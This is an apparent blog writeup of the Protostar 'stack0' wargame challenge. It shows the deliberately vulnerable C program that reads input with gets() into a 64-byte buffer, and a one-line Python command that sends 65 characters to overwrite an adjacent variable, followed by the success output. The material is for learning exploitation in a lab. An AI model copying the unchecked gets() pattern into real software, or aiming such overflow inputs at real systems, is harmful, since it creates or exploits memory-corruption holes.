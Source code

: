 ```yaml
---
layout: post
title: "Protostar stack00 writeup"
tags: [protostar]
comments: false
---
```


This challenge is not really a challenge but more of thinking of how memories can be fixed even though the source 
code doens't show any access to it.

First, we are given with a source code.
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
We can see that it uses the vulnerable 'get' function so we can overwrite buffer and reach to modified.

The total value is 64 so by putting in more value than 64 will reach the modified variable.
```
root@protostar:/opt/protostar/bin# (python -c 'print "A"*65') |./stack0
you have changed the 'modified' variable
```